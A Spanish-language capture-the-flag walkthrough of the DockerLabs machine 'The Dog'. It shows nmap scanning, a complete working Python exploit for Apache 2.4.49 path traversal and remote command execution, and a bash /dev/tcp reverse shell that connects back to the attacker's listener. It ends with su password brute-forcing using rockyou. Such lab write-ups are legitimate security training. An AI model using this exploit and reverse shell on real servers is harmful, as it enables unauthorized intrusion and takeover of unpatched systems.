


Máquina **The Dog** de [DockerLabs](https://dockerlabs.es)



----

| Os    | Dificultad | Autor                                       | IP
| ----- | ---------- | ------------------------------------------- |------
| Linux | Medio      | [firstatack](https://firstatack.github.io/) | 172.17.0.2

-----

## Reconocimiento

Comenzamos con un escaneo de `nmap` para descubrir los puertos abiertos de la máquina:

```css
nmap -p- --open --min-rate 5000 -sS -Pn -n -vvv 172.17.0.2 -oG allPorts
```

`-p-`: Englobar el rango total de puertos (65535).
`--open`: Solo mostrar los puertos abiertos.
`--min-rate 5000`: Enviar paquetes con una velocidad no menor a 5000 paquetes por segundo.
`-sS`: Indicar el modo de escaneo stealth.
`-Pn`: Saltar host discovery.
`-n`: No aplicar resolución DNS.
`-vvv`: Verbose.
`-oG`: Exportar la salida en formato grepeable.

Una vez realizado el escaneo podemos ver que el único puerto abierto es el 80, por lo que realizaremos un escaneo mas exhaustivo sobre ese puerto:

```css
nmap -sC -sV -p80 172.17.0.2 -oN targeted
```

`-sC`: Aplicar los scripts básicos de reconocimiento (la categoría default).

`-sV`: Determinar los servicios y su correspondiente versión sobre cada puerto.

`-oN`: Exportar el escaneo en un archivo llamado "targeted" con el mismo formato por el que salió en consola.

```ruby
# Nmap 7.95 scan initiated Thu May 15 19:38:24 2025 as: nmap -sC -sV -p80 -oN targeted 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Comando Ping

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 15 19:38:31 2025 -- 1 IP address (1 host up) scanned in 6.79 seconds
```

------

## Intrusión

>  Como podemos ver, utiliza apache en una versión desactualizada, por lo que si ejecutamos `searchsploit apache 2.4.49`, podemos ver un exploit que nos permite realizar un path traversal o ejecutar comandos remotamente. 

Ahora podemos ejecutar `searchsploit -m multiple/webapps/50383.sh` y ejecutar el exploit tal y como sale en los comentarios del mismo, pero yo me armé mi propio exploit para esta vulnerabilidad el cual funciona exactamente igual pero es un poco más fácil de usar:

```python
import sys
import socket
import re
if len(sys.argv) != 2:
    print(f"\n\n[!] Escriba la dirección ip:\npython3 {sys.argv[0]} 127.0.0.1")
    sys.exit(1)
def send_request(command):
    path = '/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh'
    host = sys.argv[1]
    port = 80
    body = f"echo Content-Type: text/plain; echo; {command}"
    content_length = len(body)
    request = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        f"User-Agent: request\r\n"
        f"Accept: */*\r\n"
        f"Content-Length: {content_length}\r\n"
        f"Content-Type: application/x-www-form-urlencoded\r\n"
        f"Connection: close\r\n"
        f"\r\n"
        f"{body}"
    )
    with socket.create_connection((host, port)) as s:
        s.sendall(request.encode())
        response = b""
        while True:
            chunk = s.recv(4096)
            if not chunk:
                break
            response += chunk
    final = response.decode(errors="ignore")
    output = re.search(r'text/plain\s*\r?\n\r?\n(.*)', final, re.DOTALL)
    print(output.group(1))
while True:
    try:
        command = input("Escriba el comando a ejecutar o shell para enviar una reverse shell: ")
        if command == "shell":
            port = int(input("Escriba el puerto donde quiere recibirla: "))
            host = input("Escriba su ip: ")
            shell = f'bash -c "bash -i >& /dev/tcp/{host}/{port} 0>&1"'
            send_request(shell)
        else:
            send_request(command)
    except KeyboardInterrupt:
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)
```

lo ejecutamos de la siguiente manera:

```css
❯ python3 exploit.py 172.17.0.2
Escriba el comando a ejecutar o shell para enviar una reverse shell: id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Escriba el comando a ejecutar o shell para enviar una reverse shell: 
```

nos ponemos en escucha por el puerto 443:

```css
nc -nlvp 443
```

y en el exploit escribimos shell, le pasamos el puerto 443 y nuestra ip y recibiremos la conexión:

```css
Escriba el comando a ejecutar o shell para enviar una reverse shell: shell
Escriba el puerto donde quiere recibirla: 443
Escriba su ip: 172.17.0.1
-----------------------------
❯ nc -nvlp 443
Listening on 0.0.0.0 443
Connection received on 172.17.0.2 53588
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
www-data@87a74431c87c:/usr/bin$ 
```

y ya estamos dentro.

-------

## Escalada de privilegios

### www-data

Estando dentro, utilizaremos el script [multi-su_force](https://github.com/Maciferna/multi-Su_Force/blob/main/multi-su_force.sh) para realizar fuerza bruta mediante su a todos los usuarios. Para esto nos copiamos las 100 primeras líneas del rockyou y lo metemos en un archivo:

```css
## Máquina atacante
head -n 100 /opt/rockyou.txt | wl-copy # wl-copy es para hyprland, si usas kali o parrot sin entorno o con bspwm puedes usar $(xclip -sel clip)
## Máquina víctima
cd /tmp/ && nano rockyou.txt # Dentro pegamos lo que copiamos
```

luego, copiamos el script y lo creamos como "force.sh", luego simplemente lo ejecutamos:

```css
bash /tmp/force.sh /tmp/rockyou.txt
```

luego de que termine, nos deja un archivo "output.txt" el cual al leer vemos lo siguiente:

```css
[+] Se guardó el reporte en ./output.txt
www-data@87a74431c87c:/tmp$ cat output.txt 
[✓] Contraseña secret encontrada para el usuario punky
[✓] Contraseña hannah encontrada para el usuario root
www-data@87a74431c87c:/tmp$ 
```

por lo que tenemos la contraseña para todos los usuarios, pero solo nos interesa root por lo que simplemente escalamos ejecutando `su root` y poniendo su contraseña.

### Root



Gracias por leer ;)

----------
